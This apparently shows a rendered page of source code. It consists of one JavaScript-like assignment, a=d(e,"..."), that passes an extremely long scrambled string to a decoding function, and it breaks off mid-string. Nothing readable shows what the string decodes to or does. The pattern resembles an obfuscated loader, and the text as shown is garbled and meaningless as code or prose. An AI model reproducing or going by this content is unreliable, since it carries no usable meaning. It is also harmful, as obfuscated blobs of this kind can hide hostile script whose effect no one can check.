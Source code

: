 a=d(e,"tFoGxe_fsvRO<Uw9O<x<9ovsx)wxsRGdU_f<ooOsRUFxOw_6}_R<<_fFawRvw<v0G_U<soosRwwGeR<2_<1<OoesfFFsO<evmxRGwovfowUxfR_sofR9s<%wOdxfoxRRGO6RRUxUweseURseo_<<fos<F9<_f_Fee_99Roxswwvo<Oevs_G<UofsFw<owUvvxU9vRoF9URR}E9<x_wGsRf_O9sox9of;F_O<_=swxsw9v99oUwsfG#<9GKoUOUfe<sOw__{vOxxOw9R_GUwoxxxFUvsRoxsoeeFU<G_s9GROx9OoswFFeo9<vwxxwR9GvwGU9xosUefxFR<V<<fOoxOUe91fOo9Sv<G<wosso<f_FwOO__FoFxOsew0xRRei9_v<sowsvGGxURs(oxxxDeO<eU_xoxOme_9<R2<fs9GeUR_eFU<F_G9U<x_szeOzx9SFf<xGwxsRGFwaevGoUsf<sjox<Rf5F_O<_oDsRwex9UREx_w<4eRUxYsxGZULf_F<<mBUO3xfaGRXR_ee9ovsGwwoG5UFfOoo<__G2wRUOR_w?_R<eo9_o9<UsUGFRReeo>RU_RFoOox<De,UOGesJoRxxR9B9sOee_wUowUffRo+<_fGFoOsewzxOked9_v<Oee<{5vUxswfo_<UfoFsOw_o%<OCe_9<Roxsww xfRw?sOo<Uofsvooe<<f<FOew3oRsxw9xvRxuw_<<GoUsfwox<RfoF_O<_o;sRwexwRU9xfwUvoGsUwsxoRU-f_Fw<o_s/wOx_}D%R_x<9oOeGww_sRGYU_f<oo<sfFFxOU_>QfR<eo9svwxUwRvxG_UUsoos<wfxF<<j_vb<OxesJMRxxRAfv_GwwossowUffRo!Uv_<FoOse9KxRReNovv<xowsswfxURsFo_<<foFsOw_xe_O8es9<RoxswwvxGRG_s_oUUofRFw<__RG_Ose<&GRseR9xvOxmwRs<G_FUfwox<Rf<F_OU_o3swwex9ORVxfw<voGsUwULoRUof_F<<o_s%wOR_wa8Rvx<9ovsG9wxs<GyU_Unoo<s_wFxOR_-}_R<eo9svwxxw<vmG_U<sos_<wfeFR<G__:UOoe<xGRxxR9 <fG<wGssowFxfRoF<__<FoOsewqx9_eC9sv<xowsswGxURU_o_<UfoFROw__kRU__<9<RGxsj=vxGOwnsfo<U_OUFw<x_RooO_eU/oR<vG9xvRxLFfs<GGUsfwev<RfFF_O<_oZsRw_oohRPxUw<<GGsU9sxoOU:fR_F<o_s?wweeRXFR_x<GovsG9wxsUGaU_f<oonG_wF_OR_k,_R<eo}RRvxxwUv>GUU<sooswNf9FR<x__FGOoes9wRxxw9qvfG<w_ssGzUxRcGx<__UFowvew1eRReo9_RDsfwsswGxEOsZof<<sxGxOw_e5RO_e_9<RoeR4RvxG<wKsOo<UofsFw9v_RFGO_e<}oRsxwQ_O_xHwRs<GvUsfwox<wOsF_Ow_oGsRwee9RRDvow<vsGsU9sxoRU,f_f_<o_9IwOseRh-R_x<9fvsx_wxswG+U_f<ooUx_wFUOR_G _R<eo9sOGxx9xv}G_U<soos<wsFFR<O__FFOoes9wRxeo9TRoG<wfssowUxfRov<_feFo<xewm_RRe1Gvv<xRwsv_GxwGs/o_o<fooFOw_vXROKe_9<Rvxs9_vxxow-s9o<9ofUFw<<_RFsO_e90oRsew9xRFxXwUs<GRUsfwG><RfFF_<o_oK9RwesFRR2xsw<OGGsU9sxoRosf_FU<o_RawOxeR d9wx<9ovsx#wxsRGlU_wsoo<s_wFeOR_h._R9eo9svwxxw9vuG_U<sW<w_FFvOf<J_O+<Ooes9<xUUUsOG<G<wsssowUxfs<oeO99OXe_ewSeRRey9_<xxowsswGeURs3Gn<<foFsO<{UROex9GRFxxUOsGoOG<w:s_o<eo_6xR8eRRF.O<e</oRsx<v_oUUOsRGFGxUsfwox<RfM9_xFRo,RRwex9RozF9_v9k9sw,sxoRU>f_F<xoRvxwOx_v+5R_x<9YFAUvsxonRsfFob<f_wwGRwee9wv<R<ev9svwxxwslGU_feoDO9fGfxoG<V__S<O3URv9xvwev_GFUUsossGRUxfRoA<xwROGxU9FRoo<wwsvxfUvs<swGfURs)o_<R(GvFOw_wIRO#e_9RFww9sUG_O<sFo9<Gf_fsoo<x_RFVOx9<vveFxwQlvRxTw_sRRO_9oxvv_xYOOxeoP_v9xwex8FRVx_w<v)OofeFf<sf_FmF<<v_s7wOxesfeFw9KseGfUewxvoGaU_f<obG9AwRfxw9wvUxoex9svwxxwRv G_U<soosUGfxFR<a_xsxxe9<vURxeF91v_G<wE9wUefx9v<FeR_<oGOsewcxRs<RvUGOUesso9<9f5rx<f_UFsvReFjsOpO,eO9<Roxsw<GG<Us_oLo<UOfsFw<x_ssReU9Ovexsw9s9G^xzwws<GoUsf<R__s>G<FeGK_RURwew9RRax_wRFO<Of<oFR9fo8UOGes_sFGOxeRz/Rx9eseGGwxwxRaG>U_f<o0GwLvOv_Y9GR_xFwvfhxowesv,eU)_9o_OO_GFROF_x__FFOoes9wRo<wsGGFUowos<owUxfRFw_R99RsOs_o%xRRe;9xFfwfeOvjGxURs?__UwxxRvfw_xFxOje_9<Rg<Rs<ofweffoRRefvFGFw<v_RF;O_eRRsGO9GvFvRxew_s<GoU_FfOf_v3fF_<__ohsRweo_9GRUvv/oe<UsxFO<wUmsFF<<o_s8<oU9FR_oOwGv_x=UvfvoFGoU_f<oo<s_wvxFPor1_Ooeo9svwxo_vGF<<fGoLosUefxFR<:_xvexe%/veoO<e9^v_G<wossvfUxfRoaUsvFFoOsewF4RRe;9_O<viwsswGxURsJxG<<fsxvOw_x3RFse_9URoxswwvsf9wBs_o<GRfsF9<xf<GeO_e<;o<Oxw9xvR_(oSs<GoUsfwoxw9fros<f_omRRw_U9RRjx_w<RRGsUwsxo<UmfsF<wo_UhwOxeR:jR_ef9oOsexwxsRGkU_f<xG<sswo<OR_Tc_R<eoo*vw_x99vkG_U<sooswKfxx+<o__p<OofG9wRexR9Fv_x,ofssowUxveo)<f_<oxUUew&xRRfG9_v<xo sUUGxURs0o_<<sOFsUwfoPROKe_9<RoeGwwOxxFwys_o<Uofsxo<xsRFfO_e<6oRsxwYRvReowws<GGUss9ox<Rf>G_Uv_ogvRwee9RRwx_9wROGswKsxG^Ukf_F<Uxfa5wOfeRYGR_x<9oRRe_wxswGl9_f<oo<s_wFvOR_Fl_O+eo9RvwexA_v6G_U<vGos<9fxFw<U__{<Oo<39wRexRkoOOG<wossGoUxfRo^UsOaFoOvewY_RRe*9_O<xxwss9GxUOs4GO<<voFOOw_eDROFe_lORoxs;xvxGOwSsso<UofsFwwl_RF{O_e< oRRxw9sRwx(w_s<vsUsf9oxwRs9F_<F_o6<RwfG9ROo_ow<vvGsVesxoRUlf_ov<o_UywOOeR.oR_eooGvsxGwx9bGMUff<oo<sfoevOR_+L_Foeo9vvw_xpvv1GOU<s_osU_fxo<U<__FGOo_w9wRxxR9/RGG<wfssGeUxf<o/<<vUFoOUew_RRReF9_v<xow<UGGxURsds<<<fGFsUwOoJROee_YnRo_^wwOxssw}sOo<Uffsow<xfsG_O__9.o%wxw9evRxew_v%ffUsfwoxGif?FfO<fxoURwev9R<Gx_w<voeswfsxo9UlfOF<wf_soQOeeRbfR__e9ovsGwwxs<G3UOf<ov<sfJFxUR__r_OFeo9Uvwx9wRO0eEU<sfosUGfxG_<5s_ooOoe99wRsxR9sv_xw9GssGfUxvBoq<__<Fo<eewSORRev9_vwxoKsU<GxwFsWoU<<f<FsOwfFyROee_HGRoxRwwORsFwnsOo<GsfsF9<x_9FLORRFloRsxweRvRxFw_R<s7UssGox<wfEowO<voG<Rwev9RORx_99voeso<sxo9U5fRF<UR_sGwwseRgeR_ev9oROGw9_R9GhUOf<xx<s_wFxURfF?_OFeo9Uvwe9wRvKxOU<sfos<9fxFO<pfsovOoeU9w<fxR9Lv_e<9FssGGUxf9o0U9_<Go<Gew4vRRee9_Rfxo2svfGxU9scoO<<v_FsUwfGTROee_KFRoewwwOxssw.s<o<U_fsGx<xsRxfO__oHoRwxw evReow9s<GvUss9ox<RfCG_<<_op9RweO9RRwx_9wvxGsw_sxGUUbf_F<UxfopwOUeRZfR_x<9oRReowxvxG?wvf<oo<s_woeOR_f8_O_eo9RvwxxG9vrG<U<ssosUefxo<9G__FGOo_v9wRxxRF,vsG<wvssGeUxsGo,Us_wFo<,ewFORReD9_O<x9wsv_Gxwoscxx<<sxF9Ow_UDRU_e_9<Roxs9fvxxowjsso<UxfsGJUG_RFvO__96oRsxwh_O_xr97s<xeUsfwox<RvwF_<G_oFoRwe_9RR6xww<vsGswxsxGFUcs_of<o_U0w<eeR,_R_ew9UvsxGwxv_GLU_f<xoUG_wFvOR_eW_<1eo9wOvxxw9vXvsU<sGos<9fxFw(e__8<OoOR9wRexR9xUOG<wossvxUxfOo0w_ORFoOUewPsRR_s9_O<vCwsvGGxU9sHG_<<vseFOw_v+R9Fe_9URoeOwwvsf9wgs_o<FGfsF9<xf}x#O_e<=o<Rxw9evRxow_vnffUsfwoxw<frFfO<_ofxRwex9RRFx_w<voxGUwsxoRwovOF<<o_s79OxeR+S<_vR9ovsGwwxsRGoU_f<vj<s_wFxOO_,BsR<eseOvwxxwRv_G_UUsoov<wfse9<L__&<Oses99RxxwGev_G<wovoowUefRGowO_<FoOs_F(xRReb9s<exowvswGxURsjo_<<UFFsOw_x&<OEef9<R_sUwwvxGRw{s_oUUofssR<x_RFgOfe<poRsxw9xvRxQwfs<GoUsfwo_<Rf!F_O<O9usRwex9RRMx_w<voRxUwsxoRUFf_F<<oRvKwOxeRFoUbx<9ovsxGwxsRG)U<sGoo<s_wxGOR_F,_R<eo9<wGxxwRvI_eU<sGos<wRFFR<>__/<Ooes9wRxRw9)vfG<wossowUxfRof<__<FoOsew;eRRfBxxv<xowsswGxUOsuGswRfoFvOwfxTRO/e_,wRsxs9 vxG9wZs_o<Uss<Fw<f_RFoO_eUEoRvxw9xwwxMw_s<GGUsfwox<RUsF_Ow_oHRRwee9ROo_ow<vxGsw+sxoRUKsso9<o_O=wOseR0&R__<+vvsxFwxsUG?wff<GxwF_wFsOR__p_R<eoFsROxxwwvBGRU<sUoswYssFR<e__F5Ooes9w<xvs9IvOG<wfssGsUxs<sR<_foFoO<ewixRRfVNev<xswsvxGx9Vs+o_UvfoF9Ow_x.ROCe_/wRxxs9_vxxRw1s_o<wxsoFw<U_RFGO_e<*oOReG9xRxxMwfs<GoUssoGf<RfsF_U<_o(vRwexx_Rqeow<vfGsUwsxoRGvf_ov<ofGywOxeR( <ox<9wvsxIwxs<G#U_vooo<9_wF9OR_<M_R<_O9sRexx9_v&xFU<s_xs<wf<FRUR__!UOoesG9Rxeo9yvwG<wossGxwsfRos<__<FoOvewTRRReyxRv<xowsvNGxURsbo_o3foFsOw_siRO&e_9<9_xswwvxxow!s_o<Uo<<Fw<x_RFGO_e<qoRsRo9xvRxbwUs<GoUsfwfs<Rf{F_OU_ousRwex <R/x9w<vRGsUwsxoRUxf_o_<o_s7wOxeRakORx<9OvsxNwxs<G/U_s#oo
